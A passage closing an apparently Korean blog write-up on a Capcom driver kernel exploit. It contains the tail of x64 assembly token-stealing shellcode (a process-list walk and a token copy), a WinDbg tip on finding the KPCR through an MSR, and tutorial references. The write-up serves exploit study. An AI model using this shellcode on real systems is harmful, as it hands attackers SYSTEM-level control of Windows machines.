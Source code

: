 ```
	Find_Cmd proc
		MOV RCX, [RCX]
		MOV RDX, [RCX-8]
		CMP RDX, RDI
		JNE Find_Cmd
	Find_Cmd endp

	CopyToken proc
		MOV [RCX+70h], RAX
	CopyToken endp
	
	Restore proc
		POP RDI
		POP R9
		POP R8
		POP RDX
		POP RCX
		RET
	Restore endp
end
```

드디어 끗!!!!

## [+] Tip

`dg gs` 명령을 쳤을 때 Base가 0으로 나오는 경우가 존재한다. 중국어라 설명이 어렵고... 번역을 해보니 `gs`의 내용이 `MSR(Model-Specific Registers)` 로 이동되어 그런다고 한다. 그러니 `rdmsr 0xC0000101` 명령을 치면 `msr[c0000101]` 의 값이 나오고 이 값이 `gs:[0]` 인 `KPCR`의 주소 값이다.

# [+] Video

[![Capcom Exploitl](http://img.youtube.com/vi/OJleGp4PLkI/mq2.jpg)](https://youtu.be/OJleGp4PLkI?t=0s) 



# [+] Reference

1. <a href="https://sizzop.github.io/2016/07/07/kernel-hacking-with-hevd-part-3.html">sizzop_posting</a>
2. <a href="http://www.fuzzysecurity.com/tutorials/28.html">FuzzSecurity</a>
3. [https://blog.can.ac](https://blog.can.ac/)

